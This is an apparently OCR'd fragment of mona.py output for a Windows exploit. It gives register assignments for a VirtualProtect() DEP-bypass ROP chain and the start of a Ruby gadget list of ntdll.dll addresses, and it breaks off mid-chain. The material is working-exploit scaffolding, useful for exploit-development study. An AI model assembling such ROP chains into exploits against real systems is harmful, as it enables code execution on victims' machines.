 	EBP = ReturnTo (ptr to jmp esp)

	ESI = ptr to VirtualProtect()

	EDI = ROP NOP (RETN)

	--- alternative chain ---

	EAX = ptr to &VirtualProtect()

	ECX = lpOldProtect (ptr to W address)

	EDX = NewProtect (0x40)

	EBX = dwSize

	ESP = lPAddress (automatic)

	EBP = POP (skip 4 bytes)

	ESI = ptr to JMP [EAX]

	EDI = ROP NOP (RETN)

	+ place ptr to "jmp esp" on stack, below PUSHAD

	--------------------------------------------

	ROP Chain for VirtualProtect() [(XP/2003 Server and up)] :

	----------------------------------------------------------

	*** [ Ruby ] ***

	def create_rop_chain()

	# rop chain generated with mona.py - www.corelan.be

	rop_gadgets =

	[

	0x776d94d5, # POP EBP # RETN [ntdll.dll] ** REBASED ** ASLR

	0x776d94d5, # skip 4 bytes [ntdll.dll] ** REBASED ** ASLR

	0x77695aca, # POP EBX # RETN [ntdll.dll] ** REBASED ** ASLR

	0x00000201, # 0x00000201-> ebx

	0x776a6b7b, # POP EDX # RETN [ntdll.dll] ** REBASED ** ASLR

	0x00000040, # 0x00000040-> edx

	0x777173a2, # POP ECX # RETN [ntdll.dll] ** REBASED ** ASLR

	0x7773c513, # &Writable location [ntdll.dll] ** REBASED ** ASLR

	0x7769577a, # POP EDI # RETN [ntdll.dll] ** REBASED ** ASLR

	0x77665922, # RETN (ROP NOP) [ntdll.dll] ** REBASED ** ASLR

	0x776e0f9a, # POP ESI # RETN [ntdll.dll] ** REBASED ** ASLR
